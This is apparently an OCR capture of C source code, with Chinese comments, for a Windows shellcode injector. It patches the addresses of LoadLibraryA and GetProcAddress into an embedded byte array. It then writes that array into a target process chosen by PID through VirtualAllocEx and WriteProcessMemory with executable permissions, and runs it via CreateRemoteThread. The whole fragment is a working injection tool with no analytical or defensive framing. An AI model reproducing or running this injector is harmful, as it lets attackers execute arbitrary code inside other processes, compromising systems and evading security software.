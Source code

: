```c
  0xB9, 0x10, 0x00, 0x00, 0x00, 0x4C, 0x8B, 0xC3, 0x48, 0x8D,   //12
  0x53, 0x0B, 0x48, 0x33, 0xC9, 0x41, 0xFF, 0xD4, 0xEB, 0xEB    //13
};

int main(int argc, char **argv) {
    if(argc < 2) {
        printf("Usage: inject [pid]\n");
        return -1;
    }
    //获取LoadLibraryA和GetProcAddress的真实地址
    void *p1 = GetProcAddress(GetModuleHandle("kernel32.dll"), "LoadLibraryA");
    void *p2 = GetProcAddress(GetModuleHandle("kernel32.dll"), "GetProcAddress");
    //ida_chars[]中LoadLibraryA位于ida_chars[42]，GetProcAddress位于ida_chars[61]
    *(uint64_t *)(&ida_chars[42]) = (uint64_t)p1;
    *(uint64_t *)(&ida_chars[61]) = (uint64_t)p2;
    //将ida_chars[]写入目标进程内存空间
    HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, atoi(argv[1]));
    if(NULL == hProcess) {
        printf("OpenProcess Failed: %d\n", GetLastError());
        return -1;
    }
    void *mem = VirtualAllocEx(hProcess, NULL, sizeof(ida_chars), MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    if(NULL == mem) {
        printf("VirtualAllocEx Failed: %d\n", GetLastError());
        return -1;
    }
    BOOL result = WriteProcessMemory(hProcess, mem, ida_chars, sizeof(ida_chars), NULL);
    if(!result) {
        printf("WriteProcessMemory Failed: %d\n", GetLastError());
        return -1;
    }
    //创建远程线程执行ida_chars[]中的代码
    HANDLE hRemoteThread = CreateRemoteThread(hProcess, NULL, 0, mem, NULL, 0, NULL);
    if(NULL == hRemoteThread) {
        printf("CreateRemoteThread Failed: %d\n", GetLastError());
        return -1;
    }
    printf("Injected!\n");
    return 0;
}
```

